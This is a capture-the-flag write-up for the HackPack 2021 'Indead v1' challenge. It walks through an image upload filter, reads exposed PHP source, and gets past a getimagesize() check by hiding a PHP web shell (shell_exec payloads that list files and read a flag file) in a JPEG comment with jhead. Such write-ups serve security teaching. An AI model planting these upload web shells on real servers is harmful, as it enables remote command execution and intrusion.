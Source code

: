 # Indead v1

> Job posting website for security experts, pentesters and hackers. [http://indead-upload-avatar.ctf2021.hackpack.club](http://indead-upload-avatar.ctf2021.hackpack.club/)

I took the first look at the website, there seems to be a file upload function on the index page

![image-Indeadv1-1](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-1.png?raw=true)

Source code :

```html
<form action="/" method="POST" enctype="multipart/form-data">
    <div class="form-row">
        <div class="form-group col-md-6">
            <input type="file" name="avatar">
        </div>
    </div>
    <button type="submit" class="btn btn-success">Upload picture</button>
</form>
```

I tried to upload a random file

![image-Indeadv1-2](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-2.png?raw=true)

Analyzing the page source, I found out that the image was pushed to this very weird path `/very_long_directory_path/`

![image-Indeadv1-3](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-3.png?raw=true)

I tried to read if there's any hidden file around it that they used to hide the flag, and It worked on `/very_long_directory_path/flag.txt`. Unfortunately, the flag we got on that path was a fake flag

I tried to upload a shell to the same function again and I got this

![image-Indeadv1-4](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-4.png?raw=true)

I was wondering what kind of security implementation that they were using

I tried to access to `robots.txt` file and I was lucky

![image-Indeadv1-5](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-5.png?raw=true)

Now I know they're probably exposing the PHP source code to the internet. My first try is the `index.phps` file

![image-Indeadv1-6](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-6.png?raw=true)

`core.php` was also exposed, and it was about the uploading function which is what I needed

![image-Indeadv1-7](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-7.png?raw=true)

People who are wary of falsified MIME types and extra file extensions often advocate the use of something like `getimagesize() `

To exploit this kind of vulnerability I used [jhead](http://www.sentex.net/~mwandel/jhead/) tool to embed a comment inside a decoy image file

```
C:\Users\Admin\Downloads>jhead.exe -ce uniguri.jpg.php
Modified: uniguri.jpg.php
```

Shell injected :

```php
<?php echo shell_exec("pwd"); echo shell_exec("ls -la"); __halt_compiler();
```

The `__halt_compiler()`function call is there so that the image data doesn’t accidentally get interpreted as PHP and throw a parse error. This is why the output stops before outputting the actual image data

It is successfully uploaded

![image-Indeadv1-8](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-8.png?raw=true)

After wandering around, I found out that the flag was being hidden at `/var/www/flag.txt`

I crafted the final shell to read the flag :

```php
<?php echo shell_exec("cat /var/www/flag.txt"); __halt_compiler();
```

![image-Indeadv1-9](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-9.png?raw=true)

Flag :

```
flag{y3t_an0ther_file_uplo@d_vuln}
```

